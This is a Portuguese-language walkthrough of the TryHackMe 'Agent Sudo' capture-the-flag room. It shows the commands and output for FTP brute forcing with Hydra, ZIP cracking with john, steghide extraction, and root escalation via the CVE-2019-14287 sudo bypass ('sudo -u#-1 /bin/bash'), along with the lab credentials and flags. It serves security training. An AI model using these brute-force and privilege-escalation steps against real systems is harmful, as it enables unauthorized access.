









# TryHackMe — Agent Sudo

> **Categoria:** Boot2Root / CTF
> **Dificuldade:** Médio
> **Sala:** [tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)
> **Ferramentas:** Nmap, Curl, Hydra, FTP, Binwalk, zip2john, John the Ripper, CyberChef, Steghide, SSH, SCP, Exploit-DB (CVE-2019-14287)

## Descrição da Sala

> *"We found a secret agent's account. Your task is to hack into his account and gain root access."*

Uma máquina com temática de agentes secretos, na qual a enumeração web revela uma troca de mensagens codificadas entre "agentes" (identificados apenas por letras). A partir daí, a cadeia de ataque envolve: bypass de um filtro baseado em *User-Agent*, brute force de credenciais FTP, extração de um arquivo ZIP escondido dentro de uma imagem PNG (via `binwalk`), quebra da senha do ZIP com `john`, decodificação de uma string em Base64 usada como *passphrase* de esteganografia (`steghide`), acesso SSH, uma pequena investigação de OSINT sobre uma imagem (a famosa "autópsia alienígena" de Roswell) e, por fim, escalonamento de privilégios via **CVE-2019-14287** (bypass de segurança do `sudo` < 1.8.28).

---

## Task 1 — Enumerate the Machine

### Varredura de portas com Nmap

```bash
sudo nmap -Pn -sS -sV -sC -p21,22,80 10.67.187.246
```

**Resultado:**

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


*Figura 1 — Nmap identifica três portas abertas: FTP (vsftpd 3.0.3), SSH (OpenSSH 7.6p1) e HTTP (Apache 2.4.29), com o título da página "Annoucement"*

### Acessando a página web — bypass por User-Agent

Ao acessar a página HTTP diretamente, ela se comporta como um filtro: exige que a requisição seja feita com um **codinome de agente** no cabeçalho `User-Agent`. Usando `curl` para testar diferentes valores:

```bash
curl -A 'R' -L http://10.67.187.246/
```

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DOCTYPE html>
<html>
<head>
    <title>Annoucement</title>
</head>
<body>
<p>
    Dear agents,
    <br><br>
    Use your own <b>codename</b> as user-agent to access the site.
    <br><br>
    From,<br>
    Agent R
</p>
</body>
</html>
```

Testando o codinome **C** (de *chris*, nome de usuário descoberto adiante):

```bash
curl -A 'C' -L http://10.67.187.246/
```

```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```


*Figura 2 — O site só libera conteúdo quando o `User-Agent` corresponde ao codinome de um agente; a mensagem para "C" confirma o nome de usuário `chris` e adianta que a senha dele é fraca*

---

## Task 2 — Hash Cracking and Brute-Force

### Força bruta no FTP com Hydra

Com o nome de usuário `chris` confirmado e o aviso de que a senha é fraca, foi feito um ataque de dicionário contra o serviço FTP (porta 21) usando a wordlist `rockyou.txt`:

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.67.187.246 ftp
```

**Resultado:** `chris : crystal`

Com a credencial em mãos, foi feito login manual via FTP para listar e baixar os arquivos disponíveis:

```bash
ftp 10.67.187.246
Name: chris
Password: crystal
ftp> ls
-rw-r--r--   1 0  0   217 To_agentJ.txt
-rw-r--r--   1 0  0 33143 cute-alien.jpg
-rw-r--r--   1 0  0 34842 cutie.png
ftp> get To_agentJ.txt
ftp> get cute-alien.jpg
ftp> get cutie.png
```


*Figura 3 — Hydra encontra `chris:crystal`; via FTP são baixados `To_agentJ.txt`, `cute-alien.jpg` e `cutie.png`*

### Analisando as imagens com Binwalk

Os dois arquivos de imagem foram analisados com `binwalk` em busca de dados ocultos:

```bash
binwalk cutie.png
```

```
DECIMAL   HEXADECIMAL   DESCRIPTION
0         0x0           PNG image, 528 x 528, 8-bit colormap, non-interlaced
869       0x365         Zlib compressed data, best compression
34562     0x8702        Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820     0x8804        End of Zip archive, footer length: 22
```

```bash
binwalk cute-alien.jpg
```

```
DECIMAL   HEXADECIMAL   DESCRIPTION
0         0x0           JPEG image data, JFIF standard 1.01
```

O `cutie.png` esconde um **arquivo ZIP criptografado** (`To_agentR.txt`) embutido a partir do offset `34562`. Já o `cute-alien.jpg` não apresenta nenhum arquivo embutido via `binwalk` — como será visto adiante, seus dados ocultos usam esteganografia de imagem (`steghide`), não concatenação de arquivos.

A extração automática (`binwalk -e`) falha por falta do utilitário `jar`, então o ZIP foi extraído manualmente com `dd`, usando o offset decimal identificado:

```bash
binwalk -e cutie.png
dd if=cutie.png of=hidden.zip bs=1 skip=34562
```


*Figura 4 — Binwalk revela um ZIP criptografado (`To_agentR.txt`) escondido dentro de `cutie.png` a partir do offset `34562`; `cute-alien.jpg` não mostra dados extras nesta análise*

### Quebrando a senha do ZIP e decodificando a pista em Base64

Com o ZIP extraído (pasta `8702`), o hash da senha foi gerado com `zip2john` e quebrado com `john`:

```bash
zip2john 8702.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Resultado:** `alien           (8702.zip/To_agentR.txt)`

Com a senha `alien`, o arquivo `To_agentR.txt` foi extraído e lido:

```bash
cd 8702
cat To_agentR.txt
```

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

A string `QXJlYTUx` é um valor em **Base64**. Decodificando-a no CyberChef (operação *From Base64*):

```
Input:  QXJlYTUx
Output: Area51
```


*Figura 5 — `john` quebra a senha `alien` do ZIP extraído de `cutie.png`; `To_agentR.txt` contém a string Base64 `QXJlYTUx`, que decodificada resulta em `Area51` — a futura passphrase de esteganografia*

### Esteganografia em `cute-alien.jpg` com Steghide

Voltando ao `cute-alien.jpg`, o `steghide` confirma a existência de dados embutidos, criptografados com a mesma lógica de senha:

```bash
steghide --info cute-alien.jpg
```

```
"cute-alien.jpg":
  format: jpeg
  capacity: 1,8 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
  embedded file "message.txt":
    size: 181,0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Usando `Area51` (obtida da decodificação Base64) como *passphrase*, o arquivo embutido foi extraído com sucesso:

```bash
steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".

cat message.txt
```

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

A mensagem revela tanto o **usuário** (`james`) quanto a **senha de login SSH** (`hackerrules!`) do sistema.


*Figura 6 — `steghide extract` usando a passphrase `Area51` recupera `message.txt`, que revela as credenciais `james / hackerrules!`*

---

## Task 3 — Capture the User Flag

### Login via SSH e captura da flag

Com as credenciais `james : hackerrules!`, foi feito login via SSH:

```bash
ssh james@10.67.187.246
$ ls
Alien_autospy.jpg  user_flag.txt
$ cat user_flag.txt
```

**Resultado:**

```
b03d975e8c92a7c04146cfa7a5a313c7
```


*Figura 7 — Acesso via SSH como `james`; `user_flag.txt` contém a flag `b03d975e8c92a7c04146cfa7a5a313c7`*

### Identificando a imagem `Alien_autospy.jpg`

O diretório pessoal de James também contém uma imagem chamada `Alien_autospy.jpg` (sic). Ela foi transferida para a máquina atacante via `scp` para análise:

```bash
scp james@10.67.187.246:Alien_autospy.jpg ~/
```

Pesquisando sobre a imagem, trata-se de um frame do famoso vídeo da **"autópsia alienígena" de Roswell**, divulgado em 1995 pelo empresário britânico Ray Santilli — posteriormente confirmado como uma farsa encenada por Santilli e pelo artista John Humphreys, que esculpiram um boneco com materiais artificiais e vísceras de animais para simular o corpo.


*Figura 8 — `Alien_autospy.jpg` transferida via `scp`; pesquisa confirma se tratar da conhecida farsa de 1995 da "autópsia alienígena" de Roswell*

---

## Task 4 — Privilege Escalation

### Enumerando permissões de sudo

```bash
sudo -l
```

```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

A configuração `(ALL, !root) /bin/bash` indica que James pode executar `/bin/bash` como **qualquer usuário, exceto root** — um padrão clássico vulnerável à **CVE-2019-14287**, uma falha de bypass de segurança em versões do `sudo` anteriores à 1.8.28, na qual é possível se passar por root especificando o UID `-1` (ou `4294967295`), que o `sudo` interpreta incorretamente como `0` (root).

### Localizando e aplicando o exploit (CVE-2019-14287)

O exploit foi localizado no Exploit-DB (EDB-ID **47502**, "sudo 1.8.27 - Security Bypass"):

```bash
sudo -u#-1 /bin/bash
```


*Figura 9 — Página do Exploit-DB para a CVE-2019-14287 (sudo < 1.8.28); `sudo -l` confirma que James pode executar `/bin/bash` como qualquer usuário exceto root, o padrão vulnerável ao bypass via `sudo -u#-1`*

### Capturando a flag de root

Executando o exploit, o `id` confirma o escalonamento para root apesar do `gid`/`groups` ainda referenciarem James — resultado típico do bypass da CVE-2019-14287:

```bash
sudo -u#-1 /bin/bash
# id
uid=0(root) gid=1000(james) groups=1000(james)
# cd /root
# ls
root.txt
# cat root.txt
```

**Resultado:**

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

A mensagem final não apenas entrega a flag de root, como também revela a identidade por trás de **"Agent R"**: o criador da sala, **DesKel**.


*Figura 10 — `sudo -u#-1 /bin/bash` concede `uid=0(root)`; `root.txt` revela a flag `b53a02f55b57d4439e3341834d70c062` e que "Agent R" é, na verdade, `DesKel`*

---

## 🔑 Resumo da Cadeia de Ataque

| Etapa | Ação | Resultado |
|---|---|---|
| 1 | Nmap (`-p21,22,80`) | FTP (vsftpd 3.0.3), SSH (OpenSSH 7.6p1), HTTP (Apache 2.4.29) |
| 2 | `curl -A '<codinome>'` no site HTTP | Filtro por User-Agent; codinome `C` revela o username `chris` e que sua senha é fraca |
| 3 | Hydra + rockyou.txt em FTP — `chris` | `chris : crystal` → download de `To_agentJ.txt`, `cute-alien.jpg`, `cutie.png` |
| 4 | `binwalk cutie.png` | ZIP criptografado embutido (`To_agentR.txt`), extraído via `dd` no offset `34562` |
| 5 | `zip2john` + `john` (rockyou.txt) | Senha do ZIP: `alien` → `To_agentR.txt` contém Base64 `QXJlYTUx` |
| 6 | CyberChef *From Base64* | `QXJlYTUx` → `Area51` |
| 7 | `steghide extract -sf cute-alien.jpg` (passphrase `Area51`) | `message.txt` revela credenciais SSH `james : hackerrules!` |
| 8 | SSH como `james` | `cat user_flag.txt` → **User flag:** `b03d975e8c92a7c04146cfa7a5a313c7` |
| 9 | `scp` + pesquisa sobre `Alien_autospy.jpg` | Identificada como a farsa da "autópsia alienígena" de Roswell (1995) |
| 10 | `sudo -l` | `(ALL, !root) /bin/bash` → vulnerável à CVE-2019-14287 |
| 11 | CVE-2019-14287 (EDB-ID 47502) — `sudo -u#-1 /bin/bash` | `uid=0(root)` |
| 12 | `cat /root/root.txt` | **Root flag:** `b53a02f55b57d4439e3341834d70c062`; "Agent R" revelado como `DesKel` |

---

## Ferramentas Utilizadas

| Ferramenta | Função |
|---|---|
| **Nmap** | Varredura de portas e identificação de serviços/versões |
| **Curl** | Testes manuais de `User-Agent` contra o filtro do site |
| **Hydra** | Ataque de dicionário contra o serviço FTP |
| **FTP** | Download dos arquivos iniciais (`To_agentJ.txt`, `cute-alien.jpg`, `cutie.png`) |
| **Binwalk** | Identificação de arquivos embutidos dentro de `cutie.png` |
| **dd** | Extração manual do ZIP a partir do offset identificado pelo `binwalk` |
| **zip2john / John the Ripper** | Geração e quebra do hash de senha do arquivo ZIP |
| **CyberChef** | Decodificação Base64 da pista `QXJlYTUx` → `Area51` |
| **Steghide** | Extração de dados esteganografados em `cute-alien.jpg` |
| **SSH / SCP** | Acesso interativo e transferência de arquivos da máquina-alvo |
| **Exploit-DB (EDB-ID 47502)** | PoC para CVE-2019-14287 (sudo security bypass) |

---
